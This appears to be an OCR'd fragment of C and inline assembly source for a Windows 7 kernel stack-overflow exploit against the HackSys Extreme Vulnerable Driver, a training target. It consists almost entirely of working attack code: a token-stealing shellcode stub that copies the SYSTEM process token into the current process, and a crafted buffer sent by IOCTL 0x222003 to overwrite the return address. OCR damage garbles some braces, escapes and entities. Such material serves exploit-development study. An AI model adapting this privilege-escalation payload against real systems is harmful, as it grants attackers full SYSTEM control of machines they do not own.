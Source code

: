 ```
            mov ecx, eax; Copy current process _EPROCESS structure
            mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4
        SearchSystemPID:
            mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
            sub eax, FLINK_OFFSET
            cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
            jne SearchSystemPID
            mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
            mov[ecx + TOKEN_OFFSET], edx; Replace target process nt!_EPROCESS.Token
            ; with SYSTEM process nt!_EPROCESS.Token
            ; End of Token Stealing Stub
            popad; Restore registers state
            ; Kernel Recovery Stub
            xor eax, eax; Set NTSTATUS SUCCEESS
            add esp, 12; Fix the stack
            pop ebp; Restore saved EBP
            ret 8; Return cleanly
    `}`
`}`
int _tmain(int argc, _TCHAR* argv[]) `{`
    HANDLE hDevice;
    LPCWSTR lpDeviceName = L"\\.\HacksysExtremeVulnerableDriver";
    PUCHAR lpInBuffer = NULL;
    DWORD lpBytesReturned = 0;
    STARTUPINFO si = `{` sizeof(STARTUPINFO) `}`;
    PROCESS_INFORMATION pi;
    hDevice = CreateFile(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);
    wprintf(L"[*] Author: @OsandaMalithn[*] Website: https://osandamalith.comnn");
    wprintf(L"[+] lpDeviceName: %lsn", lpDeviceName);
    if (hDevice == INVALID_HANDLE_VALUE) `{`
        wprintf(L"[!] Failed to get a handle to the driver. 0x%xn", GetLastError());
        return -1;
    `}`
    wprintf(L"[+] Device Handle: 0x%xn", hDevice);
    lpInBuffer = (PUCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x900);
    if (!lpInBuffer) `{`
        wprintf(L"[!] Failed to allocated memory. %x", GetLastError());
        return -1;
    `}`
    RtlFillMemory(lpInBuffer, 0x900, 0x41);
    RtlFillMemory(lpInBuffer + 2076, 0x4, 0x42);
    *(lpInBuffer + 2080) = (DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF;
    *(lpInBuffer + 2080 + 1) = ((DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF00) &gt;&gt; 8;
    *(lpInBuffer + 2080 + 2) = ((DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF0000) &gt;&gt; 0x10;
    *(lpInBuffer + 2080 + 3) = ((DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF000000) &gt;&gt; 0x18;
    wprintf(L"[+] Sending IOCTL request with buffer: 0x222003n");
    DeviceIoControl(
        hDevice,
        0x222003, // IOCTL
        (LPVOID)lpInBuffer,
        2084,
        NULL,
        0,
        &amp;lpBytesReturned,
        NULL);
```